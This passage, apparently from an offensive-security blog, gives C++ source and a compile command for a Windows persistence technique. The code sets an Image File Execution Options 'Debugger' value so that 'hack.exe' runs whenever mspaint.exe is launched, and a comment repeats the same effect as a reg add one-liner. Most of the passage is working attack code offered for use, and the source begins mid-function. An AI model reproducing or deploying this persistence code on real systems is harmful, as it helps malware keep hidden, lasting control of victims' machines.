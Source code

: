 ```cpp
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/68/2022-09-12_03-00.png){:class="img-responsive"}    

An example of how this appears in action:    
